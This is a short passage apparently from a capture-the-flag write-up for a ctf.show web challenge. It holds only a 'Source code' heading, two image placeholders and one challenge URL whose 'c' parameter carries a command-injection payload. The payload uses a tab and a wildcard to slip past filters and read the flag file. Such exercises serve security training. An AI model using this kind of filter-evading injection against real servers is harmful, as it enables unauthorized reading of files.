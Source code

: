 <figure><img src="../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```php
http://9cecebfd-51c1-4c91-9150-bffa8238d816.challenge.ctf.show/?c=more%09fla?.php||
```

<figure><img src="../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
